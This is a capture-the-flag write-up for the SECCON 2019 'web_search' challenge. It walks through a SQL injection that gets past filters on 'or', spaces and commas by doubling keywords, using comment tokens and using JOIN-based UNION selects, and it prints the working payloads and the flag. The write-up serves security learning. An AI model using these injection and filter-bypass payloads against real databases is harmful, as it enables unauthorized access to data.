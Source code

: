 # web_search [212pts]

## Description

```
Get a hidden message! Let's find a hidden message using the search system on the site.

http://web-search.chal.seccon.jp/
```

## Content

In this challenge, our payload will merged into SQL string, executed, and output will printed in main page.
![Main page](https://github.com/sumango3/ctf/blob/master/2019-SECCON-CTF/web_search.png)
By testing with some words, we may assume that SQL may look like following:
```
SELECT * from $table_name WHERE $column1 LIKE "RFC%" and $column2 LIKE '$q' LIMIT ($page*50, ($page+1)*50);
```
Also, `or`, `(space)`, `,` will be removed before executing SQL.

## Solution

### 'or', space filtering bypass

As the word `or` is removed before executing SQL, we can put `oorr`, so that it becomes `or` after filtering.
We can use SQL comment `/**/` instead of space, and `#` for ignoring all following words.
In result, the payload will be following:
```
'/**/oorr/**/true#
```
And this will give us a new row.
![Stage 1](https://github.com/sumango3/ctf/blob/master/2019-SECCON-CTF/web_search_1.png)

```
FLAG
    The flag is "SECCON{Yeah_Sqli_Success_" ... well, the rest of flag is in "flag" table. Try more!
```
So we should do something more.

### multi column table without comma

As we want to read something in table flag, we should UNION it.
The problem is, we should make number of columns of two tables same, but we cannot use comma.
In this case, we can use SQL JOIN to make multi column table.
```
SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b
```
will select all rows from `CROSS JOIN`ed table of following two tables:

| a |
|---|
| 1 |

and

| b |
|---|
| 2 |

In result, the following table comes out:

| a | b |
|---|---|
| 1 | 2 |

Assuming the `flag` table has only one column and RFC table has two columns, we can use following payload:
```
'/**/UNION/**/SELECT/**/*/**/FROM/**/(SELECT/**/*/**/FROM/**/flag)a/**/JOIN/**/(SELECT/**/2)b#
```
replacing `/**/` with space for readability, it becomes
```
' UNION SELECT * FROM (SELECT * FROM flag)a JOIN (SELECT 2)b#
```
But, this does not work, so our assume was wrong.
Next guess was 3 column RFC table and 1 column flag table.
```
'/**/UNION/**/SELECT/**/*/**/FROM/**/(SELECT/**/*/**/FROM/**/flag)a/**/JOIN/**/(SELECT/**/2)b/**/JOIN/**/(SELECT/**/3)c#
```
and this will give us
![Stage 2](https://github.com/sumango3/ctf/blob/master/2019-SECCON-CTF/web_search_2.png)
```
You_Win_Yeah}
    2
```

## Flag

	SECCON{Yeah_Sqli_Success_You_Win_Yeah}
